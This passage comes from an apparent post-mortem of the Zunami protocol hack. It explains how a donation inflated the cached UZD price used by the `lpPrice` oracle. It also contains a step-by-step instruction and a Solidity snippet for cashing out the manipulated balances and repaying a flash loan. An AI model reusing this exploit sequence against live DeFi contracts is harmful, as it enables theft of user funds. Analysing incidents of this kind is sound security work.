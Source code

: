 Our attention then shifts to the `lpPrice` function associated with the priceOracle located at the address `0x2ffCC661011beC72e1A9524E12060983E74D14ce`. This function is crucial for determining the price based on user income, specifically calculating the price of ZLP by considering the total holdings across all pools against the total supply.

The mechanism for calculating total holdings is particularly noteworthy. It aggregates the holdings from all pools, summing up the contributions from various strategies to arrive at a total holding value in USD. This comprehensive approach ensures a dynamic and reflective pricing model that adapts to the total assets managed by the pools.

When an attacker manipulates the system by donating to the MIMCurveStakeDao, an inflation in the UZD price occurs. This inflation is pivotal because the `balanceOf` function in the UZD contract, which calculates the attacker's balance, relies on this inflated price cached by the system. As a result, the balance of the attacker is artificially increased, exploiting the vulnerability tied to the reliance on an incorrect price in the cache.

6. To undo the price manipulation of UZD and capitalize on the inflated values, proceed to reverse all previously executed transactions that influenced UZD's price. After reverting these actions to their original state, exchange all inflated UZD holdings for a profit, completing the exploit cycle.

``` c
// swap SDT to WETH
swapToken1Totoken2(SDT, WETH, SDT.balanceOf(address(this)));
// swap WETH to USDT
swapToken1Totoken2(WETH, USDT, value);
// swap UZD to crvFRAX
UZD_crvFRAX_POOL.exchange(0, 1, UZD.balanceOf(address(this)) * 84 / 100, 0, address(this));
// swap UZD to crvUSD
crvUSD_UZD_POOL.exchange(0, 1, UZD.balanceOf(address(this)), 0, address(this)); 
// burn crvFRAX
FRAX_USDC_POOL.remove_liquidity(crvFRAX.balanceOf(address(this)), [uint256(0), uint256(0)]); 
// swap FRAX to USDC
FRAX_USDC_POOL.exchange(0, 1, FRAX.balanceOf(address(this)), 0); 
// swap crvUSD to USDC
crvUSD_USDC_POOL.exchange(1, 0, crvUSD.balanceOf(address(this)), 0, address(this)); 
// swap USDC to USDT
Curve3POOL.exchange(1, 2, 25_920 * 1e6, 0); 

uint256 swapAmount = USDC.balanceOf(address(this)) - amounts[0];
USDC_WETH_Pair.swap(address(this), true, int256(swapAmount), 920_316_691_481_336_325_637_286_800_581_326, ""); // swap USDC to WETH

IERC20(tokens[0]).transfer(msg.sender, amounts[0] + feeAmounts[0]);
IERC20(tokens[1]).transfer(msg.sender, amounts[1] + feeAmounts[1]);
```
## Summary and Conclusion
The Zunami protocol suffered a Price Manipulation attack, causing a loss exceeding $2.1 million. The exploit unfolded across two key transactions:

1. [Transaction 1 on Etherscan](https://etherscan.io/tx/0x2aec4fdb2a09ad4269a410f2c770737626fb62c54e0fa8ac25e8582d4b690cca)
 ![image](/pics/hackmd.io/ByJkfplxR.png)
